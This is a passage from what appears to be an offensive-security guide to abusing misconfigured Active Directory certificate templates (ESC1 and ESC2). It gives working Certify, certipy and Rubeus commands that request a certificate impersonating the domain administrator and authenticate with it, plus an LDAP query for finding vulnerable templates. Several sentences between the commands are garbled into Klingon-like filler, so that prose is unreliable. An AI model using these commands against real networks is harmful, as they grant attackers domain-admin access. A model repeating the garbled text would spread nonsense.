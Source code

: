 To **find vulnerable certificate templates** you can run:
```bash
Certify.exe find /vulnerable
certipy find -username john@corp.local -password Passw0rd -dc-ip 172.16.126.128
```
**ghItlh** **vulnerability** **vaj** **administrator** **ghItlh** **impersonate** **'ej** **run** **'e'** **could**.
```bash
Certify.exe request /ca:dc.domain.local-DC-CA /template:VulnTemplate /altname:localadmin
certipy req -username john@corp.local -password Passw0rd! -target-ip ca.corp.local -ca 'corp-CA' -template 'ESC1' -upn 'administrator@corp.local'
```
**DaH jImej certificate** **.pfx** **format** **ghItlh** **'ej Rubeus** **certipy** **vaj** **authenticate** **ghItlh** **vaj** **'e'** **DIvI'**.
```bash
Rubeus.exe asktgt /user:localdomain /certificate:localadmin.pfx /password:password123! /ptt
certipy auth -pfx 'administrator.pfx' -username 'administrator' -domain 'corp.local' -dc-ip 172.16.19.100
```
Windows binaries "Certreq.exe" & "Certutil.exe" can be used to generate the PFX: https://gist.github.com/b4cktr4ck2/95a9b908e57460d9958e8238f85ef8ee

The enumeration of certificate templates within the AD Forest's configuration schema, specifically those not necessitating approval or signatures, possessing a Client Authentication or Smart Card Logon EKU, and with the `CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT` flag enabled, can be performed by running the following LDAP query:
```
(&(objectclass=pkicertificatetemplate)(!(mspki-enrollmentflag:1.2.840.113556.1.4.804:=2))(|(mspki-ra-signature=0)(!(mspki-rasignature=*)))(|(pkiextendedkeyusage=1.3.6.1.4.1.311.20.2.2)(pkiextendedkeyusage=1.3.6.1.5.5.7.3.2)(pkiextendedkeyusage=1.3.6.1.5.2.3.4)(pkiextendedkeyusage=2.5.29.37.0)(!(pkiextendedkeyusage=*)))(mspkicertificate-name-flag:1.2.840.113556.1.4.804:=1))
```
## Misconfigured Certificate Templates - ESC2

### Explanation

The second abuse scenario is a variation of the first one:

1. Enrollment rights are granted to low-privileged users by the Enterprise CA.
2. The requirement for manager approval is disabled.
3. The need for authorized signatures is omitted.
4. An overly permissive security descriptor on the certificate template grants certificate enrollment rights to low-privileged users.
5. **The certificate template is defined to include the Any Purpose EKU or no EKU.**

The **Any Purpose EKU** permits a certificate to be obtained by an attacker for **any purpose**, including client authentication, server authentication, code signing, etc. The same **technique used for ESC3** can be employed to exploit this scenario.

Certificates with **no EKUs**, which act as subordinate CA certificates, can be exploited for **any purpose** and can **also be used to sign new certificates**. Hence, an attacker could specify arbitrary EKUs or fields in the new certificates by utilizing a subordinate CA certificate.

However, new certificates created for **domain authentication** will not function if the subordinate CA is not trusted by the **`NTAuthCertificates`** object, which is the default setting. Nonetheless, an attacker can still create **new certificates with any EKU** and arbitrary certificate values. These could be potentially **abused** for a wide range of purposes (e.g., code signing, server authentication, etc.) and could have significant implications for other applications in the network like SAML, AD FS, or IPSec.
